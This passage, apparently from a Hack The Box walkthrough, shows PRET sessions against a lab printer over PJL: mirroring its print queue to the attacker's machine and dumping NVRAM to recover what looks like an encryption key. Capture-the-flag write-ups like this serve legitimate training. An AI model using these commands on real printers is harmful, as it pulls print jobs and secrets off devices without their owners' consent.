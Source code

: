 ```text
TIMED=0 [2 RANGE]
        5
        300
```

The `info` command seemed to give pretty much the same information as some of the other commands...meaning nothing useful.

```text
10.10.10.201:/> mirror
Creating mirror of /
Traversing pjl/
Traversing pjl/jobs/
0:/pjl/jobs/queued -> /home/zweilos/htb/laser/PRET/mirror/10.10.10.201/0/pjl/jobs/queued
172199 bytes received.
```

The `mirror` command seemed to be pretty interesting, as it created a mirror of the print queue on my local machine.  However, no one seemed to be sending new jobs to the printer.

### Decoding the `queued` file

```text
10.10.10.201:/> nvram
NVRAM operations:  nvram <operation>
  nvram dump [all]         - Dump (all) NVRAM to local file.
  nvram read addr          - Read single byte from address.
  nvram write addr value   - Write single byte to address.
10.10.10.201:/> nvram dump
Writing copy to nvram/10.10.10.201
..................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................k...e....y.....13u94r6..643rv19u
```

The `nvram` command had a dump operation which gave me what looked to be a possible encryption key. 
